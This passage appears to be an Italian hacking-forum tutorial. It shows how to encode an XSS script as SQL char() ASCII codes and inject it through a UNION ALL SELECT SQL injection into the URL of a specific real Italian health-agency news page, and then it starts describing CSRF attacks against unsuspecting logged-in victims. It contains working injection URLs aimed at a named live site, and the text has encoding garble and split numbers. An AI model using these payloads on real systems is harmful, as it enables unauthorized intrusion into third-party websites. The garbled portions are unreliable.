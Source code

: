 bene.
ora sfruttiamo un po' di conoscenze in ambito sql, cmoe sappiamo dovremo separare i numeri

da virgole, al posto degli spazi in questo modo:

60,115,99,114,105,112,116,62,97,108,101,114,116,40,39,120,115,115,98,121,88,97,6 8,111,83,39,

41,60,115,99,114,105,112,116,62

ora possiamo metterlo dentro il nostro comandino magico..

char(60,83,67,82,73,80,84,62,97,108,101,114,116,40,39,120,115,115,98,121,120,97, 100,111,115,

39,41,60,47,115,99,114,105,112,116,62)

ed ora..bhe, riprendiamo la nostra SQL
ex.
http://www.aslromah.it/news/home_notizia.php?ID_News=-99%20union%20all%20select%201,2,3,4,5,

6,7,8,910,11,12--

leggiamo il numero in cui printera i risultati, nel nostro caso il 4, ed inseriamo il codice

ascii.ORA dovremmo avere:

http://www.aslromah.it/news/home_notizia.php?ID_News=-99%20union%20all%20select%201,2,3,char

(60,83,67,82,73,80,84,62,97,108,101,114,116,40,39,120,115,115,98,121,120,97,100, 111,115,39,4

1,60,47,115,99,114,105,112,116,62),5,6,7,8,9,10,11,12--

linkate..eh...puff
appere il nostro alert dentro l'SQL. Semplicemente inutile ma.. divertente.


Code:
[!] CSRF o XSRF: Cross Site Request Forgery


Ora che abbiamo concluso con le XSS vorrei presentare un attacco simile ma non certamente

uguale alle XSS, piÃ¹ potente Ã¨ piÃ¹ dannoso per un ignara vittima.

Innanzitutto bisogna capire la sostanziale differernza tra le XSS e le CSRF: Ã¨ molto

semplice, mentre le Xss si basano sullo spingere un determinato user a cliccare su un url

maligna in modo tale da prelevare i suoi cookies o le sue informazioni di accesso ad un sito

web, Le CSRF si basano sullo sfruttamento di un user vittima che, essendo loggato ad un

determinato sito, ci permette di eseguire codici maligni attraverso il suo stesso account.

Proprio per questo Ã¨ una tecnica piÃ¹ difficile da individuare ed eliminare per un admin,

poichÃ¨ tutte le azioni commesse risulteranno eseguite da un user qualunque(la nostra

vittima,che non sospetta di nulla).

Riassumendo quindi le Cross Site Request Forgery ci permettono di spedire qualunque tipo di

richiesta HTTP ad un sito attraverso una specifica vittima che compierÃ  ogni azione per noi

a suo discapito.
